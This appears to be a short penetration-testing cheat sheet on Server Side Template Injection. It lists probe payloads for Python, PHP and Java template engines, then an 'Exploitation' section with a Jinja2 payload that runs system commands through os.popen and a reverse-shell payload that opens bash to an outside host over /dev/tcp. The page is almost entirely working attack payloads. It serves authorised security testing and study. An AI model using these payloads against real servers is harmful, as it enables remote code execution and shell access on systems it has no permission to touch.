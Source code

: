```yaml
---
icon: syringe
description: Server Side Template Injection
---
```


# SSTI

{% hint style="info" %}
## <mark style="color:purple;">Testing Payloads</mark>

### <mark style="color:green;">`Python`</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">`PHP`</mark> <mark style="color:purple;">based frameworks:</mark>

```django
{{7*7}}
```

```django
{{config}}
```

```django
{{self}}
```

***

### <mark style="color:orange;">`Apache`</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">`Java`</mark> <mark style="color:purple;">based frameworks:</mark>

```apacheconf
${7*7}
```

```java
<% out.print(7*7); %>
```
{% endhint %}

***

{% hint style="danger" %}
## <mark style="color:purple;">Exploitation</mark>

{% code title="Python global scope" %}
```python
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```
{% endcode %}

{% code title="Reverse shell" overflow="wrap" %}
```python
{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"').read() }}
```
{% endcode %}
{% endhint %}
